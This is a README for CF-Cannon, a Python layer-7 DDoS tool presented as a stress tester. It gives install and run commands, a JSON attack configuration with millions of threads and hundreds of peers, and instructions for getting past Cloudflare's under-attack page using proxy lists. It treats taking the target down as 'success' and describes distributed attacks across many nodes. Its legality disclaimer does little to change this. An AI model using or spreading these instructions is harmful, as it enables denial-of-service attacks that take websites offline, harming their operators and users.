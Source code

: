 [![LICENSE](https://img.shields.io/badge/license-Anti%20996-blue.svg)](https://github.com/996icu/996.ICU/blob/master/LICENSE)
# CF-Cannon
## CF-Cannon is a tool written in python to perform layer 7 stress test on your own server.
# ---------------------------------------------
## V2 Version
### V2 version enables distributed attack on each nodes with penetration of Json protection page and can be (theoretically) deployed on infinite machines.

### Install:
```bash
apt-get update
apt-get -y upgrade
apt-get install build-essential nodejs python-setuptools
apt-get install -y python-pip
pip install demjson Flask pycurl 
```

### Run (on each node):
```bash
python attack.py
```
Then use any third party API Tester:  (i.e https://apitester.com/)

Post a json request to path written in attack.py (Default: /attack)
```json
attackinfo={
	"T": 8,
	"charset": "utf-8",
	"is_protected_by_cf": false,
	"keywords": "welcome",
	"path": "/index.php",
	"peerCount": 300,
	"threadCount": 10000000,
	"url": "http://www.sample.com"
}
```
###  Note: Set "is_protected_by_cf" to be true only if you see following page:
![alt text](https://www.a2hosting.com/images/uploads/knowledgebase_images/kb-cloudflare-under-attack-interstitial-page.png)

After sending POST request, you’re suppose to see this:
![alt text](https://levyhsu.com/wp-content/uploads/2019/05/2.png)

Failed means your node have no access to target (keyword not found). It can be caused by:

- You have already take it down (Success)
- Wrong keyword on html page
- Your IP/Machine is on blacklist
- Any other reason that may cause you have no access to this page

Success simply suggest target web page still functions normally

## Disclaimer: Please make sure all your tests are legal and with consent of relevant parties as I won't be responsible for any consequence caused by this script.

# ---------------------------------------------

## V1 Version(NO LONGER UPDATED)

For CF-bypass you'll need a proxy list with very good connection and low latency to your server.

*Third party proxy checker you may need:*
https://github.com/maxmalysh/python-proxy-checker

### Install:
```
apt-get update
apt-get -y upgrade
apt-get install build-essential nodejs python-setuptools python3-setuptools
apt-get install -y python3-pip
pip3 install PySocks requests cfscrape scapy-python3
```

### Run:
```
python3 cf_cannon.py www.sample-target.com -t 1000 -d /index.php
```

### Parameters:
```
-d --dir : path of target, I.e: www.abc.com/index.php then -d /index.php
-s --ssl : Use http or https. For https&proxy mode your proxy must support https.
-p --port: Port of the server,80 or 443?
-t --threads: How many threads?
-l --time: Haven't done yet
-x --proxy_file_location : Deafult: proxy.list, feel free to assign other list.
```
### Don't forget:
```
ulimit -n 655350
```
### Proof of Power
![image](https://levyhsu.com/wp-content/uploads/2018/10/webwxgetmsgimg.jpeg)

### Notice that:
Each "ERROR:root:’http://abc.com’ returned an error. Could not collect tokens." indicates one proxy failure (cfscrape can’t access page though server)

The effiecy through proxy is still low, if you have ieda or update, welcome to merge.
